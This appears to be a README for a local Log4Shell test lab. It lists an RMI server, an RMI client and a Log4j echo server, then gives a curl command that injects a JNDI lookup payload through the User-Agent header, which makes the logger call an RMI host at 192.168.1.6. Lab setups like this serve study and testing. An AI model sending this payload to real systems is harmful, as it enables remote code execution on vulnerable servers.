 ## server list
* SimpleRmiServer
  * port : 1234
  * health check : http://localhost:1234/healthcheck
* SimpleRmiClient
  * port : 4321
  * health check : http://localhost:4321/healthcheck
  * application runner invoke rmi hello service method
* SimpleLog4jEchoServer
  * port : 8080
  * health check : http://localhost:8080/healthcheck

## log4shell test
``` shell
$ curl -v -X GET \
--header 'User-Agent: ${jndi:rmi://192.168.1.6:10999/HelloService}' \
http://localhost:8080/doService/wow
```
log4j call `jndi:rmi://192.168.1.6:10999/HelloService`